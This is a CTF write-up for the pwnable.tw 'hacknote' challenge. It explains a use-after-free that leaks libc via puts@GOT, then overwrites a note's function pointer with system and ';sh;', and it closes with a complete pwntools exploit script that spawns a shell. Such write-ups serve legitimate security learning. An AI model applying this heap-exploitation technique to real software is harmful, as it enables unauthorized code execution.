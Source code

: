 ```yaml
---
title: "Pwnable.tw Hacknote"
categories:
  - ctf
tags:
  - unix
  - pwn
---
```


This is a more difficult Use After Free challenge than the one we have previously exploited on
pwnable.kr. This challenge is called hacknote, and you can download this from either pwnable.tw
or from the HITCON-Training repository on angelboy's github.

It involves abusing a uaf twice, first to achieve a leak within libc to calculate the address of system
within libc, and next to overwrite the object's print method with system and pass ";sh;" as a parameter
to it.

I wont be going into much details on the internals of ptmalloc as much as i usually do, i will simply
just say what happens without giving much reason on WHY that happens.

```c
struct note {
    void (*putsNoteFn)();
    char *content;
}
```

this is what the note struct will look like, the first member will be 4 bytes in size, as it will hold
a pointer to an address space that will be dereferenced and executed. The reason that it is 4 bytes is
due to the fact that this is an x86 binary, which means each address space is 4 bytes large.

The second member is the content, this is a char pointer which means there is no statically set
limit for its size, but it will also be 4 bytes large. It will act as a pointer, which means that the
actual value being stored on the object/struct is only 4 bytes large as well.

Lets check the context in which this object is being used:

```c
void print_note_content(struct note *this){
	puts(this->content);
}

notelist[i]->printnote = print_note_content;

notelist[i]->content = (char *)malloc(size);
```

okay, so we have our print_note_content function, which will know where our content pointer is within
memory. This is important as i was stuck on this for a while trying to understand why a simple
ret2plt would not work.

It is still theoretically possible to pop rdi the GOT entry of puts@GOT, and pass it to puts@PLT, but
i would have to try that out later since im not actually sure. okay, so i will attempt to help you
visualize the leak first:

first we allocate 2 users, of chunk size 28. We know that the minimum chunk size for a 64 bit binary
will be 24 right? But this is a 32 bit binary, which means the useable size of a chunk returned will
be 12. We dont want this, we want 28 byte chunks, so lets pass "13" to our creation size.

Malloc will pad it with 16 bytes, so each allocation size within x86's usable chunk sizes will be
12, 28, 44, and so forth.

here is the layout of the heap after we allocate 2 users of 28 bytes in size, and named AAAA/BBBB

```
       notelist[0]                               notelist[1]
          |                                          |
          V                                          V
[metadata] [[printnote][content_pointer]] [metadata] [[printnote][content_pointer]]
                |               |                          |                |
                V               V                          V                V
         print_note_content(); char* content="AAAA";  print_note_content(); char* content="BBBB";
```

okay, let free these two to create 2 dangling pointers due to the fact that the pointers had not been
nulled out, which gives us a uaf bug. Lets then allocate a user 3:

```
  +---------------------------------------------------------------+
  |                                                               |
  |    notelist[0]                               notelist[1]  notelist[2]
  +-------|                                          |
          V                                          V
[metadata] [[printnote][content_pointer]]
                |               |
                V               V
        print_note_content(); char* content="AAAA";
```

this part is important, we can INTERACT with this object by accessing the functions through notelists
right? Now that since notelist[2] is POINTING to the notelist[0], we can DIRECTLY overwrite this
object on the heap.

This is different than interacting with the object in the sense that these are pointers remember?
When we add and print notes, it is within a controlled environment, within a controlled object. But
now, if we were to allocate notelist[2] with the same chunk that notelist[0] points to, we can directly
interact with what gets called/interacted with.

so we can use this to leak the address of any static imported symbol we want, as long as it has already
been called. Normally you would want to use something like __libc_start_main, but i just went with puts
here since that its much shorter and less of a hassle to type.

okay, so we create an object/note with a size of 8 bytes, and the contents of our print_note_content
function, and whichever GOT entry we want to leak. I am not going to be explaining how this gets
resolved, and printed out, but here is a nice video for you if you want to understand it:

https://www.youtube.com/watch?v=0exSe-PAhns

okay, we have leaked and calculated the base address of libc. How do we gain code execution?

the exact same thing, just over again. Free user 3, which is on index 2, and overwrite the content
pointer with system, and ";sh;", to ignore the junk bytes or env variables when executing a shell.

boom, here is the exploit script:

```py
#!/usr/bin/env python3
from pwn import remote,process,ELF,context,pause
from fastpwn import pack,log
from sys import argv
# glibc: 2.23
context(arch='i386',os='linux',log_level='DEBUG')
binary=ELF("./hacknote",checksec=False)
s=lambda x,r="":p.sendlineafter(str(r),str(x)) if r else p.sendline(str(x))
if len(argv)>1 and argv[1]=="-r": # adjust libc based on local or rem
    libc=ELF("./libc_32.so.6",checksec=False)
    p=remote("chall.pwnable.tw", 10102)
else:
    p=binary.process()
    libc=ELF("./libc.so.6",checksec=False)
# user 1
s("1",r="choice :")
s("13",r=" :")
s("AAAA",r=" :")

# user 2
s("1",r="choice :")
s("13",r=" :")
s("BBBB",r=" :")
pause()
# delete 0 - ptr saved
s("2",r=" :")
s("0",r=" :")

# delete 1 - ptr saved
s("2",r=" :")
s("1",r=" :")

# user 3 - ptr 0 may interact
s("1",r="choice :")
s("8",r=" :")
pause()
# overwrite old object, address and contents/parameter
p.sendline(pack.pk32(0x0804862B)+pack.pk32(binary.got['puts'])) # control ip
#p.sendline(pack.pk32(binary.plt['puts'])+pack.pk32(binary.got['puts'])) # control ip, ret2plt
#pause()
s("3",r="choice :")
s("0",r=" :")

p.recvuntil("Index :")
# will print all contents of note, we only want first 4 bytes; leaked libc address
base = int.from_bytes(p.recv(4),"little")-libc.symbols['puts']
context.log_level='warning'
log.log("Leaked base address of libc: %s"%hex(base))
system=libc.symbols['system']+base
log.log("Leaked address of system: %s"%hex(system))
# we do not need to leak /bin/sh, we have ability to write memory
pause()
# free user 3(index 2)
s("2",r=" :")
s("2",r=" :")
# overwrite again with system with parameter ;sh;, to ignore junk
s("1",r=" :")
s("8",r=" :")
p.sendline(pack.pk32(system) + b";sh;")

s("3",r=" :")
s("0",r=" :")
p.interactive()
```
